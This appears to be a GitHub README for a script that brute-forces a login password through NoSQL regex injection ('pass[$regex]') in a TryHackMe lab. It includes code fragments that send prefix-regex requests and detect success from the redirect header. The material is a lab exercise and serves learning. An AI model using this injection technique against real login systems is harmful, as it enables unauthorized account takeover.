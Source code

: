 # no-sql-password-bruteforce
With the help of chatgpt, I made a script that bruteforces the password of a no sql application while doing a THM lab (https://tryhackme.com/room/nosqlinjectiontutorial)

![image](https://github.com/user-attachments/assets/8bba6b55-838a-48dd-8932-b967826975df)

After running the script

![image](https://github.com/user-attachments/assets/4cf5bd05-13dc-4f79-aa9d-b3174446caef)

# What to do first

*First, fill the headers and data such that it is the same as your HTTP request.*

Example: 
`
headers = {
    "Host": "10.10.123.171",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://10.10.123.171",
    "Connection": "keep-alive",
    "Referer": "http://10.10.123.171/",
    "Cookie": "PHPSESSID=2j8v8s9atem0ks7a6gtpmmedgk",
    "Upgrade-Insecure-Requests": "1"
}

def try_password_regex(prefix):
    data = {
        "user": "pedro",
        "pass[$regex]": f"^{prefix}.*$",
        "remember": "on"
    }
    response = requests.post(url, headers=headers, data=data, allow_redirects=False)
    return response
 `
 
*Second, don't forget to change the max number of characters (for me it was 4 characters for the user pedro)*

*Lastly, change the location header that it will redirect you to if the password fails.*

`
 if response.status_code == 302 and location_header != "/?err=1":
                password += char
                print(f"[+] Found character {i+1}: {char} => {password}")
                break
I was redirected to /?err=1 if the character was wrong.
`

Good Luck!
